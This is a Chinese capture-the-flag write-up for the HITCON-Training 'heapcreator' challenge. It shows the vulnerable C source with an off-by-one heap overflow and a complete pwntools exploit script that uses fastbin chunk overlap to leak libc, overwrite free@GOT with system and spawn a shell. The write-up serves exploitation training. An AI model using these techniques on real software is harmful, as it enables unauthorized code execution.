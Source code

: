 题目来自[HITCON-Training](https://github.com/scwuaptx/HITCON-Training)@Angelboy，off-by-one 修改inuse的fastbin chunk size，free该chunk获取一个稍微大的的fastbin chunk。再次malloc实现fastbin chunk overlap，从而可以修改关键指针，hjiack got getshell！

## 题目信息

源码见这里：https://github.com/thinkycx/pwn/blob/master/HITCON-Training/lab13/heapcreator.c

程序中有一个struct heap，提供4个功能，其中edit功能存在off-by-one漏洞！

```c
struct heap {
	size_t size ;
	char *content ;
};
struct heap *heaparray[10];

void menu(){
	puts("--------------------------------");
	puts("          Heap Creator          ");
	puts("--------------------------------");
	puts(" 1. Create a Heap               ");
	puts(" 2. Edit a Heap                 ");
	puts(" 3. Show a Heap                 ");
	puts(" 4. Delete a Heap               ");
	puts(" 5. Exit                        ");
	puts("--------------------------------");
	printf("Your choice :");
}

void create_heap(){
	int i ;
	char buf[8];
	size_t size = 0;
	for(i = 0 ; i < 10 ; i++){
		if(!heaparray[i]){
			heaparray[i] = (struct heap *)malloc(sizeof(struct heap));
			if(!heaparray[i]){
				puts("Allocate Error");
				exit(1);
			}
			printf("Size of Heap : ");
			read(0,buf,8);
			size = atoi(buf);
			heaparray[i]->content = (char *)malloc(size);
			if(!heaparray[i]->content){
				puts("Allocate Error");
				exit(2);
			}
			heaparray[i]->size = size ;
			printf("Content of heap:");
			read_input(heaparray[i]->content,size);
			puts("SuccessFul");
			break ;
		}
	}
}

void edit_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);
		puts("Done !");
	}else{
		puts("No such heap !");
	}
}
void show_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Size : %ld\nContent : %s\n",heaparray[idx]->size,heaparray[idx]->content);
		puts("Done !");
	}else{
		puts("No such heap !");
	}

}

void delete_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		free(heaparray[idx]->content);
		free(heaparray[idx]);
		heaparray[idx] = NULL ;
		puts("Done !");	
	}else{
		puts("No such heap !");
	}

}
```



## exploit

思路：假设malloc 0x18，chunk会复用下一个chunk的PREV_SIZR，因此可以利用多写的一个字节，来overflow nextchunk 的 SIZE。这时free nextchunk就可以获取larget fastbin chunk，再次malloc导致chunk overlap，可以实现修改关键指针！本题中利用chunk overlap控制heap->content，使用show泄漏GOT，使用edit hijack free@GOT为system，free一个content为"/bin/sh\x00"的字符串就可以getshell。

具体的关于overlap的细节如下：

如下图所示：申请两次，获得chunk0 chunk1 chunk2 chunk3，其中chun0和chunk2是保存的heap结构体。edit chunk1可写0x19字节，因此多的一个字节可以溢出0x21，修改为0x41。

![image-20181204214015905](./img/image-20181204214015905.png)

溢出后，free chunk2 chunk3，就可以获取一个0x40和0x20大小的fastbin chunk。再次malloc实现chunk overlap。因此申请create 0x40，正好可以把fastbin中的两个chunk申请回来，一个是data的chunk，一个是heap结构体的chunk。

![image-20181204215021950](./img/image-20181204215021950.png)

exploit：

```python
def pwn(io):
    if local&debug: gdb.attach(io,'break *0x400db1') # main atoi
    log.info("[1] create chunk,  overwrite chunk2's size and free chunk2, get 2 fastbin chunks")
    create(0x18, "") # 0 1 chunk0
    create(0x10, "") # 0 1 2 3   chunk1
    create(0x10, "") # 0 1 2 3 4 5 6 chunk2

    payload_overflow = "a"*0x10 + p64(0xdeadbeafdeadbeaf) + "\x41"
    edit(0, payload_overflow)
    delete(1) # get fastbin chunk in  0x40

    log.info("[2] get 0x40 chunk, chunk overlap! overwrite free@got to content ptr")
    payload_got = p64(0x0)*2 + p64(0) + p64(0x21) + p64(0x8)  + p64(elf.got['free'])
    create(0x38, payload_got) # chunk3
    show(1)

    io.recvuntil("Content : ")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['free']
    log.success("libc.address: %#x", libc.address)

    log.info("system addr: %#x", libc.symbols['system'])

    log.info("[3] write system addr to free@got")
    edit(1, p64(libc.symbols['system']))

    create(0x18, "/bin/sh\x00")
    delete(3)
```

![image-20181204235044113](./img/image-20181204235044113.png)

